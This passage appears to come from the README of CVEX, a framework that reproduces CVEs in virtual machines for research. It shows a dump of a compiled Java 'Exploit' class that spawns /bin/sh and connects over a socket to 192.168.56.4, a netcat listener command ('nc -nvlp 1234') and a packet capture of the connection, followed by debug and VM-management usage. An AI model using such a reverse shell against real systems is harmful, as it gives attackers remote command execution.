SourceFile...Exploit.java........192.168.56.4.../bin/sh...java/lang/ProcessBuilder...java/lang/String....M..N.O..P.Q...java/net/Socket....R..J..S.T..U.T..V.W..X.Y..K..Z.[..\.[..L..].^.._....`..a.b..c.[...java/lang/Exception..d....e.....Exploit...java/lang/Object...java/lang/Process...java/io/InputStream...java/io/OutputStream...([Ljava/lang/String;)V...redirectErrorStream...(Z)Ljava/lang/ProcessBuilder;...start...()Ljava/lang/Process;...(Ljava/lang/String;I)V...getInputStream...()Ljava/io/InputStream;...getErrorStream...getOutputStream...()Ljava/io/OutputStream;...isClosed...()Z..	available...()I...read...write...(I)V...flush...java/lang/Thread...sleep...(J)V..	exitValue...destroy...close.!................... ............*.....L...=..N...Y....Y.-S..........:...	Y+...
:......:......:......:......:	.....:
.......`.........
....................
....................	............
....	..............W...:............................!...n.....	...
.............&...1...8...?...F...T...\...d...q...y.................................!..."...$...%...&."...1....T....#..$...$..%..&..'..'..'..(..(......X..)..*...........+.....,
```

The payload connects back to netcat ("nc -nvlp 1234" from cvex.yml), executed by the attacker:
```
15:34:04.462260 IP 192.168.56.3.60972 > 192.168.56.4.1234: tcp 0
E..<I.@.?..Y..8...8..,...g........../A.........
.$IN........
15:34:04.462345 IP 192.168.56.3.60972 > 192.168.56.4.1234: tcp 0
E..<I.@.>..Y..8...8..,...g........../A.........
.$IN........
15:34:04.464332 IP 192.168.56.4.1234 > 192.168.56.3.60972: tcp 0
E..<..@.@.Id..8...8....,.Z...g......"..........
...3.$IN....
15:34:04.464348 IP 192.168.56.4.1234 > 192.168.56.3.60972: tcp 0
E..<..@.?.Jd..8...8....,.Z...g......"..........
...3.$IN....
```

</details>

## Debug

If something goes wrong and re-starting CVEX doesn't help, run it with the `-v` parameter. It will show you even more logs that may help debugging the issue.

## Managing VMs

CVEX executed with `-l` parameter shows the list of cached VMs:
```
$ cvex -l
2024-09-19 10:41:45,410 - INFO - [main] Cached VMs:
2024-09-19 10:41:45,410 - INFO - [main] router
2024-09-19 10:41:45,410 - INFO - [main] gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:41:45,411 - INFO - [main] bento_ubuntu-22.04/202404.23.0/1
```

CVEX executed with `-d` parameter destroys the specific VM and deletes all corresponding files:
```
$ cvex -d gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:45:57,769 - INFO - [stub] Destroying VM stub...
```

